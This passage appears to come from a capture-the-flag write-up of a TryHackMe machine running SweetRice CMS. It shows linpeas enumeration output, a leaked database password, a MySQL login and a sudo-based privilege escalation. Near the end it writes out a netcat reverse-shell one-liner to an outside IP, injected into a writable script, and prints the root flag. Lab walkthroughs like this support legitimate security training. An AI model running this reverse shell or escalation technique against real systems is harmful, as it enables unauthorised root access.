/var/www/html/content/_themes/default/comment_form.php
/var/www/html/content/_themes/default/css
/var/www/html/content/_themes/default/css/app.css
/var/www/html/content/_themes/default/entry.php
/var/www/html/content/_themes/default/foot.php
/var/www/html/content/_themes/default/form.php
/var/www/html/content/_themes/default/head.php
/var/www/html/content/_themes/default/main.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/as
/var/www/html/content/as/index.php
/var/www/html/content/as/js
/var/www/html/content/as/js/BodySort.js
/var/www/html/content/as/js/dashboard.js
/var/www/html/content/as/js/function.js
/var/www/html/content/as/js/media_center.js
/var/www/html/content/as/lib
/var/www/html/content/as/lib/ad.php
/var/www/html/content/as/lib/app.sql
/var/www/html/content/as/lib/app_pgsql.sql
/var/www/html/content/as/lib/app_sqlite.sql
/var/www/html/content/as/lib/attachment.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/as/site.css
/var/www/html/content/as/tinymce.css
/var/www/html/content/attachment
/var/www/html/content/changelog.txt
/var/www/html/content/images
/var/www/html/content/images/captcha.php
/var/www/html/content/images/favicon.ico
/var/www/html/content/images/sitemap.xsl
/var/www/html/content/inc
/var/www/html/content/inc/404.php
/var/www/html/content/inc/ads
/var/www/html/content/inc/ads/revphp.php
/var/www/html/content/inc/alert.php
/var/www/html/content/inc/cache
/var/www/html/content/inc/cache/cache.db
/var/www/html/content/inc/close_tip.php
/var/www/html/content/inc/db.php
/var/www/html/content/inc/do_ads.php
/var/www/html/content/inc/do_attachment.php
/var/www/html/content/inc/do_category.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/inc/font/arial.ttf
/var/www/html/content/inc/function.php
/var/www/html/content/inc/htaccess.txt
/var/www/html/content/inc/init.php
/var/www/html/content/inc/install.lock.php
/var/www/html/content/inc/lang
/var/www/html/content/inc/lang/big5.php
/var/www/html/content/inc/lang/en-us.php
/var/www/html/content/inc/lang/zh-cn.php
/var/www/html/content/inc/lastest.txt
/var/www/html/content/inc/mysql_backup
/var/www/html/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
/var/www/html/content/inc/rssfeed.php
/var/www/html/content/inc/rssfeed_category.php
/var/www/html/content/inc/rssfeed_entry.php
/var/www/html/content/inc/sitemap_xml.php
/var/www/html/content/index.php
/var/www/html/content/js
/var/www/html/content/js/SweetRice.js
/var/www/html/content/js/excanvas.compiled.js
/var/www/html/content/js/function.js
/var/www/html/content/js/init.js
/var/www/html/content/js/pins.js
/var/www/html/content/license.txt
/var/www/html/content/upgrade_db.php
/var/www/html/index.html

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                         
  Group www-data:                                                                                                                                    
/var/www/html/content/changelog.txt                                                                                                                  
/var/www/html/content/upgrade_db.php
/var/www/html/content/attachment
/var/www/html/content/as
/var/www/html/content/as/tinymce.css
/var/www/html/content/as/js
/var/www/html/content/as/js/BodySort.js
/var/www/html/content/as/js/function.js
/var/www/html/content/as/js/dashboard.js
/var/www/html/content/as/js/media_center.js
/var/www/html/content/as/lib
/var/www/html/content/as/lib/tinymce.php
/var/www/html/content/as/lib/do_urlredirect.php
/var/www/html/content/as/lib/update.php
/var/www/html/content/as/lib/theme.php
/var/www/html/content/as/lib/attachment.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/as/index.php
/var/www/html/content/as/site.css
/var/www/html/content/license.txt
/var/www/html/content/inc
/var/www/html/content/inc/rssfeed.php
/var/www/html/content/inc/do_category.php
/var/www/html/content/inc/alert.php
/var/www/html/content/inc/error_report.php
/var/www/html/content/inc/do_entry.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/inc/lang/zh-cn.php
/var/www/html/content/inc/lang/big5.php
/var/www/html/content/inc/lang/en-us.php
/var/www/html/content/inc/404.php
/var/www/html/content/inc/do_tags.php
/var/www/html/content/inc/do_attachment.php
/var/www/html/content/inc/font
/var/www/html/content/inc/font/arial.ttf
/var/www/html/content/inc/do_rssfeed.php
/var/www/html/content/inc/rssfeed_category.php
/var/www/html/content/inc/function.php
/var/www/html/content/inc/do_ads.php
/var/www/html/content/inc/do_sitemap.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/js
/var/www/html/content/js/excanvas.compiled.js
/var/www/html/content/js/function.js
/var/www/html/content/js/init.js
/var/www/html/content/js/pins.js
/var/www/html/content/js/SweetRice.js
/var/www/html/content/index.php
/var/www/html/content/_plugin
/var/www/html/content/_plugin/tinymce
/var/www/html/content/_plugin/tinymce/skins
/var/www/html/content/_plugin/tinymce/skins/lightgray
/var/www/html/content/_plugin/tinymce/skins/lightgray/img
/var/www/html/content/_plugin/tinymce/skins/lightgray/skin.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/content.inline.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/content.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/skin.ie7.min.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce.ttf
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce.eot
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.ttf
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.eot
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.woff
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/tinymce/tinymce.min.js
/var/www/html/content/_plugin/tinymce/license.txt
/var/www/html/content/_plugin/tinymce/themes
/var/www/html/content/_plugin/tinymce/themes/modern
/var/www/html/content/_plugin/tinymce/themes/modern/theme.min.js
/var/www/html/content/_plugin/tinymce/langs
/var/www/html/content/_plugin/tinymce/langs/zh_CN.js
/var/www/html/content/_plugin/tinymce/langs/readme.md
/var/www/html/content/_plugin/tinymce/langs/zh_TW.js
/var/www/html/content/_plugin/tinymce/plugins
/var/www/html/content/_plugin/tinymce/plugins/preview
/var/www/html/content/_plugin/tinymce/plugins/preview/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autosave
/var/www/html/content/_plugin/tinymce/plugins/autosave/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/textcolor
/var/www/html/content/_plugin/tinymce/plugins/textcolor/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/charmap
/var/www/html/content/_plugin/tinymce/plugins/charmap/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/advlist
/var/www/html/content/_plugin/tinymce/plugins/advlist/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/lists
/var/www/html/content/_plugin/tinymce/plugins/lists/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/directionality
/var/www/html/content/_plugin/tinymce/plugins/directionality/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/fullscreen
/var/www/html/content/_plugin/tinymce/plugins/fullscreen/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/table
/var/www/html/content/_plugin/tinymce/plugins/table/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/pagebreak
/var/www/html/content/_plugin/tinymce/plugins/pagebreak/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/noneditable
/var/www/html/content/_plugin/tinymce/plugins/noneditable/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/contextmenu
/var/www/html/content/_plugin/tinymce/plugins/contextmenu/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/searchreplace
/var/www/html/content/_plugin/tinymce/plugins/searchreplace/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/anchor
/var/www/html/content/_plugin/tinymce/plugins/anchor/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/insertdatetime
/var/www/html/content/_plugin/tinymce/plugins/insertdatetime/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autoresize
/var/www/html/content/_plugin/tinymce/plugins/autoresize/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/link
/var/www/html/content/_plugin/tinymce/plugins/link/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/hr
/var/www/html/content/_plugin/tinymce/plugins/hr/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/media
/var/www/html/content/_plugin/tinymce/plugins/media/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/media/moxieplayer.swf
/var/www/html/content/_plugin/tinymce/plugins/image
/var/www/html/content/_plugin/tinymce/plugins/image/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autolink
/var/www/html/content/_plugin/tinymce/plugins/autolink/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/tabfocus
/var/www/html/content/_plugin/tinymce/plugins/tabfocus/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/fullpage
/var/www/html/content/_plugin/tinymce/plugins/fullpage/plugin.min.js
/var/www/html/content/_plugin/app
/var/www/html/content/_plugin/app/lang
/var/www/html/content/_plugin/app/lang/zh-cn.php
/var/www/html/content/_plugin/app/lang/big5.php
/var/www/html/content/_plugin/app/lang/en-us.php
/var/www/html/content/_plugin/app/install_sqlite.sql
/var/www/html/content/_plugin/app/install_pgsql.sql
/var/www/html/content/_plugin/app/deinstall_sqlite.sql
/var/www/html/content/_plugin/app/shareFunction.php
/var/www/html/content/_plugin/app/deinstall.sql
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/app/inc/form_data_list.php
/var/www/html/content/_plugin/app/inc/nav.php
/var/www/html/content/_plugin/app/inc/form_list.php
/var/www/html/content/_plugin/app/inc/main.php
/var/www/html/content/_plugin/app/inc/database_insert.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/app/js
/var/www/html/content/_plugin/app/js/app.js
/var/www/html/content/_plugin/app/css
/var/www/html/content/_plugin/app/css/app.css
/var/www/html/content/_plugin/app/css/dashboard.css
/var/www/html/content/_plugin/app/install.sql
/var/www/html/content/_plugin/app/deinstall_pgsql.sql
/var/www/html/content/_plugin/app/plugin_config.php
/var/www/html/content/_plugin/app/index.php
/var/www/html/content/_plugin/app/home.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_themes
/var/www/html/content/_themes/default
/var/www/html/content/_themes/default/entry.php
/var/www/html/content/_themes/default/cat.php
/var/www/html/content/_themes/default/main.php
/var/www/html/content/_themes/default/theme.config
/var/www/html/content/_themes/default/foot.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_themes/default/css/app.css
/var/www/html/content/_themes/default/sidebar.php
/var/www/html/content/_themes/default/show_comment.php
/var/www/html/content/_themes/default/comment_form.php
/var/www/html/content/_themes/default/form.php
/var/www/html/content/_themes/default/tags.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/images
/var/www/html/content/images/captcha.php
/var/www/html/content/images/favicon.ico
/var/www/html/content/images/sitemap.xsl
/tmp/linpeas.sh

╔══════════╣ Searching passwords in history files
                                                                                                                                                     
╔══════════╣ Searching passwords in config PHP files
$db_passwd = 'randompass';                                                                                                                           

╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password                                                                                                                            
/bin/systemd-tty-ask-password-agent
/etc/brlapi.key
/etc/pam.d/common-password
/usr/bin/credentials-preferences
/usr/include/php/20151012/ext/standard/php_password.h
/usr/lib/evolution-data-server/credential-modules
/usr/lib/evolution-data-server/credential-modules/module-credentials-goa.so
/usr/lib/evolution-data-server/credential-modules/module-credentials-uoa.so
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/i386-linux-gnu/libsamba-credentials.so.0
/usr/lib/i386-linux-gnu/libsamba-credentials.so.0.0.1
/usr/lib/i386-linux-gnu/samba/libcmdline-credentials.so.0
/usr/lib/i386-linux-gnu/signon/libpasswordplugin.so
/usr/lib/i386-linux-gnu/unity-control-center-1/panels/libcredentials.so
/usr/lib/mysql/plugin/validate_password.so
/usr/lib/pppd/2.4.7/passwordfd.so
/usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/__pycache__/client_credentials.cpython-35.pyc
/usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/__pycache__/resource_owner_password_credentials.cpython-35.pyc
/usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/client_credentials.py
/usr/lib/python3/dist-packages/oauthlib/oauth2/rfc6749/grant_types/resource_owner_password_credentials.py
/usr/share/app-install/desktop/password-gorilla:password-gorilla.desktop
/usr/share/app-install/desktop/unity-control-center-signon:credentials-preferences.desktop
/usr/share/app-install/desktop/unity-control-center-signon:unity-credentials-panel.desktop
/usr/share/app-install/icons/credentials-preferences.png
/usr/share/app-install/icons/password-gorilla.png
/usr/share/app-install/icons/password.png
/usr/share/app-install/icons/preferences-desktop-user-password.svg
  #)There are more creds/passwds files in the previous parent folder

/usr/share/applications/unity-credentials-panel.desktop
/usr/share/dbus-1/services/com.canonical.indicators.webcredentials.service
/usr/share/dbus-1/services/com.canonical.webcredentials.capture.service
/usr/share/dns/root.key
/usr/share/doc/signon-plugin-password
/usr/share/help-langpack/en_AU/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_AU/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_GB/evince/password.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-changepassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_GB/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_GB/zenity/password.page
/usr/share/help/C/evince/password.page
/usr/share/help/C/file-roller/password-protection.page
/usr/share/help/C/file-roller/troubleshooting-password.page
/usr/share/help/C/gnome-help/user-changepassword.page
/usr/share/help/C/gnome-help/user-goodpassword.page
/usr/share/help/C/onboard/password-dialogs.page
/usr/share/help/C/seahorse/keyring-update-password.page
/usr/share/help/C/seahorse/passwords-stored-create.page
/usr/share/help/C/seahorse/passwords-view.page
/usr/share/help/C/ubuntu-help/user-changepassword.page
/usr/share/help/C/ubuntu-help/user-forgottenpassword.page
/usr/share/help/C/ubuntu-help/user-goodpassword.page
/usr/share/help/C/web-credentials
/usr/share/help/C/zenity/figures/zenity-password-screenshot.png
/usr/share/help/C/zenity/password.page
/usr/share/help/am/ubuntu-help/user-changepassword.page
/usr/share/help/am/ubuntu-help/user-forgottenpassword.page
/usr/share/help/am/ubuntu-help/user-goodpassword.page
/usr/share/help/ar/ubuntu-help/user-changepassword.page
/usr/share/help/ar/ubuntu-help/user-forgottenpassword.page
/usr/share/help/ar/ubuntu-help/user-goodpassword.page
/usr/share/help/as/gnome-help/user-changepassword.page

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
                                                                                                                                                     
╔══════════╣ Searching passwords inside logs (limit 70)
 base-passwd depends on libc6 (>= 2.8); however:                                                                                                     
 base-passwd depends on libdebconfclient0 (>= 0.145); however:
2019-02-26 23:57:33 configure base-passwd:i386 3.5.39 3.5.39
2019-02-26 23:57:33 install base-passwd:i386 <none> 3.5.39
2019-02-26 23:57:33 status half-configured base-passwd:i386 3.5.39
2019-02-26 23:57:33 status half-installed base-passwd:i386 3.5.39
2019-02-26 23:57:33 status installed base-passwd:i386 3.5.39
2019-02-26 23:57:33 status unpacked base-passwd:i386 3.5.39
2019-02-26 23:57:34 status half-configured base-passwd:i386 3.5.39
2019-02-26 23:57:34 status half-installed base-passwd:i386 3.5.39
2019-02-26 23:57:34 status unpacked base-passwd:i386 3.5.39
2019-02-26 23:57:34 upgrade base-passwd:i386 3.5.39 3.5.39
2019-02-26 23:57:38 install passwd:i386 <none> 1:4.2-3.1ubuntu5
2019-02-26 23:57:38 status half-installed passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:57:38 status unpacked passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:57:40 configure base-passwd:i386 3.5.39 <none>
2019-02-26 23:57:40 status half-configured base-passwd:i386 3.5.39
2019-02-26 23:57:40 status installed base-passwd:i386 3.5.39
2019-02-26 23:57:40 status unpacked base-passwd:i386 3.5.39
2019-02-26 23:57:43 configure passwd:i386 1:4.2-3.1ubuntu5 <none>
2019-02-26 23:57:43 status half-configured passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:57:43 status installed passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:57:43 status unpacked passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:58:09 configure passwd:i386 1:4.2-3.1ubuntu5.3 <none>
2019-02-26 23:58:09 status half-configured passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:58:09 status half-configured passwd:i386 1:4.2-3.1ubuntu5.3
2019-02-26 23:58:09 status half-installed passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:58:09 status installed passwd:i386 1:4.2-3.1ubuntu5.3
2019-02-26 23:58:09 status unpacked passwd:i386 1:4.2-3.1ubuntu5
2019-02-26 23:58:09 status unpacked passwd:i386 1:4.2-3.1ubuntu5.3
2019-02-26 23:58:09 upgrade passwd:i386 1:4.2-3.1ubuntu5 1:4.2-3.1ubuntu5.3
2019-02-27 00:01:08 install signon-plugin-password:i386 <none> 8.58+16.04.20151106-0ubuntu1
2019-02-27 00:01:08 status half-installed signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1
2019-02-27 00:01:08 status unpacked signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1
2019-02-27 00:03:02 configure signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1 <none>
2019-02-27 00:03:02 status half-configured signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1
2019-02-27 00:03:02 status installed signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1
2019-02-27 00:03:02 status unpacked signon-plugin-password:i386 8.58+16.04.20151106-0ubuntu1
2019-11-29 11:41:25 status half-configured passwd:i386 1:4.2-3.1ubuntu5.3
2019-11-29 11:41:25 status half-installed passwd:i386 1:4.2-3.1ubuntu5.3
2019-11-29 11:41:25 status unpacked passwd:i386 1:4.2-3.1ubuntu5.3
2019-11-29 11:41:25 upgrade passwd:i386 1:4.2-3.1ubuntu5.3 1:4.2-3.1ubuntu5.4
2019-11-29 11:41:26 status half-installed passwd:i386 1:4.2-3.1ubuntu5.3
2019-11-29 11:41:26 status unpacked passwd:i386 1:4.2-3.1ubuntu5.4
2019-11-29 11:41:27 configure passwd:i386 1:4.2-3.1ubuntu5.4 <none>
2019-11-29 11:41:27 status half-configured passwd:i386 1:4.2-3.1ubuntu5.4
2019-11-29 11:41:27 status installed passwd:i386 1:4.2-3.1ubuntu5.4
2019-11-29 11:41:27 status unpacked passwd:i386 1:4.2-3.1ubuntu5.4
Preparing to unpack .../base-passwd_3.5.39_i386.deb ...
Preparing to unpack .../passwd_1%3a4.2-3.1ubuntu5_i386.deb ...
Selecting previously unselected package base-passwd.
Selecting previously unselected package passwd.
Setting up base-passwd (3.5.39) ...
Setting up passwd (1:4.2-3.1ubuntu5) ...
Shadow passwords are now on.
Unpacking base-passwd (3.5.39) ...
Unpacking base-passwd (3.5.39) over (3.5.39) ...
Unpacking passwd (1:4.2-3.1ubuntu5) ...
dpkg: base-passwd: dependency problems, but configuring anyway as you requested:
```


---
## MySQL
Logged in to *mysql* with creds:

```
www-data@THM-Chal:/home/itguy$ mysql -u rice -p           
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 28
Server version: 5.7.28-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

What can I see...?:


---
## Privesc
Ok, so i can run a single command as *sudo*:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

What is in *backup.pl*, a simple perl script:

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

So then, what is in */etc/copy.sh*:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.170 5554 >/tmp/f
```

Try writing to this file:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.170 5554 >/tmp/f" > /etc/copy.sh
```

And success. Running the *backup.pl* now gives a reverse shell.


### root.txt

```
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# 
```


